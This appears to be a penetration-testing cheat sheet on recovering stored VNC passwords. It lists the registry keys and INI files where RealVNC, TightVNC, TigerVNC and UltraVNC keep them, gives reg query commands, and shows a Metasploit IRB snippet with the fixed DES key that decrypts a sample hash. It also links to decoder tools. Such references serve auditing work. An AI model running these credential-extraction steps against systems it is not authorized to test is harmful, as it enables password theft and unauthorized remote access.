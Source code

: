 # Locating The Encrypted VNC Password

1. Open regedit.exe
2. Expand the HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\ until you reach vncserver.
3. At the right pane, you should see a registry name called Password with the type as REG_SZ and random characters for the data. The random characters you see for Password is the encrypted password for RealVNC.

## RealVNC
```
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4
HKLM\\Software\\RealVNC\\WinVNC4
HKCU\\Software\\RealVNC\\WinVNC4
HKLM\\Software\\RealVNC\\Default
HKCU\\Software\\RealVNC\\Default
Value: Password
```

## TightVNC
```
HKEY_CURRENT_USER\Software\TightVNC\Server
HKLM\SOFTWARE\TightVNC\Server\ControlPassword
tightvnc.ini
vnc_viewer.ini
Value: Password or PasswordViewOnly
```

## TigerVNC
```
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
Value: Password
```

## UltraVNC
```
C:\Program Files\UltraVNC\ultravnc.ini
Value: passwd or passwd2
```

## Other
```
HKLM\\Software\\ORL\\WinVNC3
HKCU\\Software\\ORL\\WinVNC3
HKLM\\Software\\ORL\\WinVNC3\\Default
HKCU\\Software\\ORL\\WinVNC3\\Default
HKLM\\Software\\ORL\\WinVNC\\Default
HKCU\\Software\\ORL\\WinVNC\\Default
```


### reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```

### reg query HKLM\SOFTWARE\TightVNC\Server /s

```
C:\Windows\system32>reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
--- SNIP ---
    Password    	REG_BINARY    D7A514D8C556AADE
    ControlPassword    	REG_BINARY    1B8167BC0099C7DC
--- SNIP ---
```

With the encypted VNC password: D7A514D8C556AADE

decrypt it easily using the Metasploit Framework and the IRB (ruby shell) with these 3 commands:
```
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["YOUR ENCRYPTED VNC PASSWORD HERE"].pack('H*'), fixedkey
```


### Example:
taken from: https://github.com/frizb/PasswordDecrypts
```
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```





### Decrypting The Encrypted VNC Password
download the tool "VNC password decoder 0.2 (vncpwd)" from aluigi, in the password recovery section
http://aluigi.org/pwdrec.htm

https://github.com/jeroennijhof/vncpwd




http://aluigi.org/pwdrec/vncpwd.zip




http://tools88.com/safe/vnc.php
